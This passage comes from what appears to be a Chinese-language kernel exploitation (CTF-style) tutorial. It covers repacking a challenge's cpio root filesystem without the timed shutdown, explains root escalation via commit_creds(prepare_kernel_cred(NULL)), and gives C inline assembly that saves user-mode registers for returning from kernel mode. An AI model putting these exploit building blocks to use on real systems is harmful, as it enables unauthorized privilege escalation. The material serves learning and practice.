 ```bash
# poweroff -d 120 -f & 
setsid /bin/cttyhack setuidgid 1000 /bin/sh
echo 'sh end!\n'
umount /proc
umount /sys

poweroff -d 0 -f
```

利用环境中提供的打包脚本重新打包该文件：

```bash
./gen_cpio.sh core.cpio
```

`gen_cpio.sh`是环境中提供的重新打包文件系统的脚本，内容如下：

```bash
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > $1
```

我们也可以使用自己的命令打包，如下：

```bash
find . | cpio -o -H newc > ../core.cpio
# 或者：
find . | cpio -o --format=newc > ../rootfs.img
```

打包后，将其还原：

```bash
mv core.cpio ../core.cpio
cd ..
```

重新启动内核，不再有定时关机。

## 0x03 状态保存与恢复

### basic

归根到底，我们需要执行一个`commit_creds(prepare_kernel_cred(NULL))`，来让当前线程的`cred`结构体变为`init`进程的`cred`的拷贝从而获得`root`权限，并着陆到用户态起一个`shell`。（高版本改变权限的方式更为复杂，需要执行`commit_creds(prepare_kernel_cred(&init_task))`或`commit_creds(&init_cred)`）

在我们的`exploit`进入内核态之前，我们需要保存用户态的各个寄存器的值，从而手动模拟用户态进入到内核态的过程。例如，我们可以通过如下方式来保存寄存器的值（使用这种内联汇编在`gcc`编译时需要指定`-masm=intel`）：

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```
